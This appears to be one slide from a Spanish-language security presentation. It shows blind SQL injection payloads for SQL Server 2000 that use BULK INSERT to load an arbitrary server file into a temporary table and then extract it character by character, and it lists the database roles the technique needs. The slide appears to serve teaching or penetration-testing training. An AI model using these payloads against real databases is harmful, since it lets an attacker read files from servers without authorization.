

# SQL Server 2K – Bulk option
Acceso a cualquier fichero
; Create Table TempTable as (row varchar(8000)) --
; Bulk Insert TempTable From 'c:\file.ext' With (FIELDTERMINATOR = '\n', ROWTERMINATOR = '\n‘) --
; alter table  TempTable add num int IDENTITY(1,1) NOT NULL –
and (select COUNT(row) from TempTable)
and (select top 1 len(row) from TempTable where num = rownum)
and (select top 1 ASCII(SUBSTRING(row,1,1)) from TempTable where num = 1)
; Drop Table TempTable--
Privilegios necesarios
Server Role: Bulkadmin
Database Role: db_owner o db_ddladmin
Permisos NTFS